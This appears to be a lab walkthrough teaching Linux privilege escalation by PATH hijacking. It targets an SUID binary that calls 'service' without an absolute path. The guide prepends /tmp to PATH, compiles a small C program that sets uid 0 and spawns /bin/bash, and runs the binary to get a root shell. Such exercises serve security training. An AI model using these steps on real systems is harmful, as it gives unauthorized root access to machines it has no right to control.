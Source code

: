 ```yaml
---
legal-banner: true
---
```


1.  the first thing we want to do when facing a binary we are not familiar with, is run it to see what it does.  
    `/usr/local/bin/suid-env`  

    ![](../../../img/Linux-Environment/127.png)

    **NOTE:** here we can see that the binary appears to be start the apache2 service.
    
2.  the next thing we want to do is to try and extract strings from the binary. This well help us determine if any interesting binaries are being loaded during execution.  
    `strings /usr/local/bin/suid-env`  
    
    ![](../../../img/Linux-Environment/128.png)

    **NOTE:** In the strings we can see that the command service apache2 start in the binary is used without an absolute path
    
3.  Now that we have found this vulnerability, we need to edit our PATH variable to include a writeable directory.  
    `echo $PATH`  
    
    ![](../../../img/Linux-Environment/129.png)

    **NOTE:** When the command service apache2 start is executed by the suid-path binary, it is done so without using the absolute path. This means that the system will check each of the directories listed in our PATH environmental variable from left to right for the service binary, and then execute it from the first directory where it is found.
    
4.  All of the default directories in the PATH are NOT writeable for standard users. That means we will just have to add a new one.  
    `export PATH=/tmp:$PATH`  
    
    ![](../../../img/Linux-Environment/130.png)

    **NOTE:** Any user has the ability to edit their own PATH; and, any new directory added to a users PATH gets placed on the leftmost side,This means that any command that is executed without the absolute path to the binary, will check **/tmp** first.
    
5.  Now all we need to do is Create a malicious binary named **service** and place it in the **/tmp** folder.  
    `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0;}' > /tmp/service.c`
    
6.  Our malicious C program looks good. Now all we need to do is compile it  
    `gcc /tmp/service.c -o /tmp/service`
    
7.  Our exploit is all ready. Now when we execute suid-path, the program will ride the PATH to find the service command, and execute our malicious version of service before it ever finds the real binary.  
    `/usr/local/bin/suid-env`  
    
    ![](../../../img/Linux-Environment/131.png)